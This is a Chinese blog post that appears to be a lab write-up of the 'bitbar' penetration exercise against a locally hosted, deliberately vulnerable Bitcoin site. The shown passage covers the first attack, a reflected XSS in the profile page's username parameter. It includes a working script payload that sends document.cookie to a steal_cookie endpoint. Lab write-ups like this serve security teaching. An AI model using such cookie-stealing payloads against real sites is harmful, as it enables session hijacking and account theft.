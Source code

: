 ```yaml
---
title: bitbar渗透实验
published: 2020-06-08
description: ''
image: ''
tags: ['post', '渗透测试', '网络安全', 'ruby', '编程']
category: '周报'
draft: false
lang: ''
---
```

 bitbar渗透实验




本文首发于 https://sec-in.com/article/441

给的是一个比特币交易的网站，本地搭建环境之后开始按照文章中的要求来完成6次attack

> 网站源码和代码都放在这个仓库了 https://github.com/xinyongpeng/bitbar

 Attack 1: Warm-up exercise: Cookie Theft

根据路由

```ruby
  get 'profile' => 'userview_profile'
```

定位到函数

```ruby
  def view_profile
    @username = params[:username]
    @user = User.find_by_username(@username)
    if not @user
      if @username and @username != ""
        @error = "User {@username} not found"
      elsif logged_in?
        @user = @logged_in_user
      end
    end
    
    render :profile
  end
```

可以看到，输入的 `username` 被直接给打印出来，那么自然就存在XSS漏洞了。

payload

```html
<script type="text/javascript">(new Image()).src="http://localhost:3000/steal_cookie?cookie="+document.cookie</script>
```

或者使用 xmlhttprequest 发送
